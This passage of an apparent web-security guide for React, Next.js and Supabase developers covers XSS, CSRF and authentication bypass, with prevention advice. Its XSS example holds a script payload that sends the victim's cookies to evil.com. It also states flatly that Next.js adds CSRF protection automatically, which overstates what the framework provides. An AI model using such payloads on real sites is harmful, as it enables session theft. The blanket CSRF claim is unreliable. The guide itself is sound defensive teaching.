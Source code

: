 ### 2. **Cross-Site Scripting (XSS)**

**What it is**: Attackers inject malicious JavaScript into your app.

**Example Attack**:
```html
<!-- User enters this in a comment field: -->
<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
```

**How to Prevent**:
- Sanitize all user input
- Use React's built-in XSS protection
- Validate data on the server
- Use Content Security Policy (CSP)

**React Protection**:
```tsx
// ✅ SAFE - React automatically escapes content
<div>{userInput}</div>

// ❌ DANGEROUS - Never use dangerouslySetInnerHTML with user data
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

### 3. **Cross-Site Request Forgery (CSRF)**

**What it is**: Attackers trick users into making unwanted requests.

**How to Prevent**:
- Use CSRF tokens
- Validate request origins
- Use SameSite cookies

**Next.js Protection**:
Next.js automatically includes CSRF protection. Don't disable it.

### 4. **Authentication Bypass**

**What it is**: Users access data they shouldn't see.

**Example Attack**:
```typescript
// Attacker tries to access another user's data
const { data } = await supabase
  .from('profiles')
  .select('*')
  .eq('id', 'other-user-id')
```

**How to Prevent**:
- Use Row-Level Security (RLS)
- Validate authentication on every request
- Never trust client-side authentication alone

**RLS Protection**:
```sql
-- ✅ SAFE - Users can only see their own profile
CREATE POLICY "Users can view own profile"
  ON profiles
  FOR SELECT
  USING (auth.uid() = id);
```
